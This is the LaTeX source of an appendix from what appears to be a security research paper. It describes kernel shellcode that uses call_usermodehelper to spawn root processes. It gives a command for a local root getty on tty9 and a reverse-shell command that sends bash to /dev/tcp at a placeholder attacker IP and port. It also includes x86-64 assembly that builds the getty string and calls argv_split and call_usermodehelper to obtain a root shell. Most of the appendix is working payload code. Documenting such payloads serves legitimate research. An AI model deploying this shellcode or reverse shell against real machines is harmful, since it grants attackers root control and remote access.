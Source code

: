 \newpage

\section{Shell Code}\label{apx:shellcode}

To open the new shell, we use a Linux kernel functionality allowing the spawning of user processes with root privileges. It is possible to both lunch a local shell with root access using,
 $$\textbf{\nobreak ``/sbin/getty -aroot tty9''},$$
and open a remote shell, providing root access to a remote user with,
$$\textbf{\nobreak ``/bin/bash -c /bin/bash$>$\&/dev/tcp/{\normalfont \emph{attacker's IP}}/{\normalfont \emph{port}}$<$\&1''}.$$

\begin{figure}[h]
        \begin{verbatim}
;push ``/sbin/getty -aroot tty9''
mov  rax, 0x003979747420746f
push rax
mov  rax, 0x6f72612d20797474
push rax
mov  rax, 0x65672f6e6962732f
push rax

xor  rdi, rdi
mov  rsi, rsp
xor  rdx, rdx
mov  rax, <argv_split>
call rax

mov  rdi, qword [rax]
mov  rsi, rax
xor  rcx, rcx
mov  rax, <call_usermodehelper>
call rax

pop  rax
pop  rax
pop  rax
ret
        \end{verbatim}
        \caption{Shell code for spawning a new local root shell.}
        \label{fig:shellcode_1}
\end{figure}


\clearpage

